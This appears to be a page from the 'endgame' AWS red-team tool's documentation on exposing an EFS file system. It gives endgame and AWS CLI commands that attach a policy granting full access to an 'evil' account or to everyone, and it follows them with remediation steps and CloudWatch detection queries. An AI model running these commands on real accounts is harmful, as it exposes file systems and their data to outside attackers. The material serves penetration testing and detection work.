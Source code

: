 # Elastic File Systems (EFS)

* [Steps to Reproduce](#steps-to-reproduce)
* [Exploitation](#exploitation)
* [Remediation](#remediation)
* [Basic Detection](#basic-detection)
* [References](#references)

## Steps to Reproduce

> Note: The Terraform demo infrastructure will output the EFS File System ID. If you are using the Terraform demo infrastructure, you must leverage the file system ID in the `--name` parameter.

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service efs --name fs-01234567
```

* Alternatively, to expose the resource using the AWS CLI, run the following from the victim account:

```bash
aws efs put-file-system-policy --file-system-id fs-01234567 --policy '{
    "Version": "2012-10-17",
    "Id": "read-only-example-policy02",
    "Statement": [
        {
            "Sid": "AllowEverybody",
            "Effect": "Allow",
            "Principal": {
                "AWS": "*"
            },
            "Action": [
                "elasticfilesystem:*"
            ],
            "Resource": "*"
        }
    ]
}'
```

* To view the contents of the file system policy, run the following:

```bash
aws efs describe-file-system-policy \
    --file-system-id fs-01234567
```

* Observe that the contents of the overly permissive resource-based policy match the example shown below.

## Example

The policy below shows the EFS policy granting `elasticfilesystem:*` access to the file system from the evil principal (`arn:aws:iam::999988887777:user/evil`).

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "AllowCurrentAccount",
            "Effect": "Allow",
            "Principal": {
                "AWS": "arn:aws:iam::111122223333:root"
            },
            "Action": "elasticfilesystem:*",
            "Resource": "arn:aws:elasticfilesystem:us-east-1:111122223333:file-system/fs-01234567"
        },
        {
            "Sid": "Endgame",
            "Effect": "Allow",
            "Principal": {
                "AWS": "arn:aws:iam::999988887777:user/evil"
            },
            "Action": "elasticfilesystem:*",
            "Resource": "arn:aws:elasticfilesystem:us-east-1:111122223333:file-system/fs-01234567"
        }
    ]
}
```


## Exploitation

```
TODO
```

## Remediation

> ‼️ **Note**: At the time of this writing, AWS Access Analyzer does **NOT** support auditing of this resource type to prevent resource exposure. **We kindly suggest to the AWS Team that they support all resources that can be attacked using this tool**. 😊

* **Block Public Access to the EFS File System**: Follow the EFS Guidance [here](https://docs.aws.amazon.com/efs/latest/ug/access-control-block-public-access.html) to block public access to the EFS File Systems.
* **Trusted Accounts Only**: Ensure that EFS File Systems are only shared with trusted accounts, and that the trusted accounts truly need access to the File System.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **Restrict access to IAM permissions that could lead to exposure of your EFS File Systems**: Tightly control access to the following IAM actions:
  - [elasticfilesystem:PutFileSystemPolicy](https://docs.aws.amazon.com/efs/latest/ug/API_PutFileSystemPolicy.html): _Grants permission to apply a resource-level policy that defines the actions allowed or denied from given actors for the specified file system_
  - [elasticfilesystem:DescribeFileSystems](https://docs.aws.amazon.com/efs/latest/ug/API_DescribeFileSystems.html): _Grants permission to view the description of an Amazon EFS file system specified by file system CreationToken or FileSystemId; or to view the description of all file systems owned by the caller's AWS account in the AWS region of the endpoint that is being called_
  - [elasticfilesystem:DescribeFileSystemPolicy](https://docs.aws.amazon.com/efs/latest/ug/API_DescribeFileSystemPolicy.html): _Grants permission to view the resource-level policy for an Amazon EFS file system_

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## Basic Detection
The following CloudWatch Log Insights query will include exposure actions taken by endgame:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent
| filter eventSource='elasticfilesystem.amazonaws.com' and eventName='PutFileSystemPolicy'
```

The following query detects policy modifications which include the default IOC string:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent
| filter eventSource='elasticfilesystem.amazonaws.com' and (eventName='PutFileSystemPolicy' and requestParameters.policy like 'Endgame')
```

This query assumes that your CloudTrail logs are being sent to CloudWatch and that you have selected the correct log group.

## References

* [put-filesystem-policy](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/efs/put-file-system-policy.html)
* [Creating File System Policies](https://docs.aws.amazon.com/efs/latest/ug/create-file-system-policy.html)
